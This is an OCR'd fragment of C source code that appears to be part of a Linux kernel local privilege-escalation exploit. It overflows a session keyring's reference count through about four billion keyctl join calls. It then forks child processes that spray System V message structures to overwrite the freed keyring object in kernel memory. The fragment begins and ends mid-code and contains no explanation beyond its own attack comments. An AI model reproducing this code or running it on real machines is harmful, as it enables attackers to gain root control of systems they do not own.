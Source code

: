 ``` c++
 exit(1);
 }
 
 keyring_name = argv[1];
 
 /* Set the new session keyring before we start */
 
 serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name);
 if (serial &lt; 0) {
 perror(&quot;keyctl&quot;);
 return -1;
 }
 
 if (keyctl(KEYCTL_SETPERM, serial, KEY_POS_ALL | KEY_USR_ALL | KEY_GRP_ALL | KEY_OTH_ALL) &lt; 0) {
 perror(&quot;keyctl&quot;);
 return -1;
 }
 
 puts(&quot;Increfing...&quot;);
 for (i = 1; i &lt; 0xfffffffd; i++) {
 if (i == (0xffffffff - l)) {
 l = l/2;
 sleep(5);
 }
 if (keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name) &lt; 0) {
 perror(&quot;keyctl&quot;);
 return -1;
 }
 }
 sleep(5);
 /* here we are going to leak the last references to overflow */
 for (i=0; i&lt;5; ++i) {
 if (keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name) &lt; 0) {
 perror(&quot;keyctl&quot;);
 return -1;
 }
 }
 
 puts(&quot;finished increfing&quot;);
 puts(&quot;forking...&quot;);
 /* allocate msg struct in the kernel rewriting the freed keyring object */
 for (i=0; i&lt;64; i++) {
 pid = fork();
 if (pid == -1) {
 perror(&quot;fork&quot;);
 return -1;
 }
 
 if (pid == 0) {
 sleep(2);
 if ((msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1) {
 perror(&quot;msgget&quot;);
 exit(1);
 }
 for (i = 0; i &lt; 64; i++) {
 if (msgsnd(msqid, &amp;msg, sizeof(msg.mtext), 0) == -1) {
 perror(&quot;msgsnd&quot;);
 exit(1);
 }
 }
 sleep(-1);
 exit(1);
```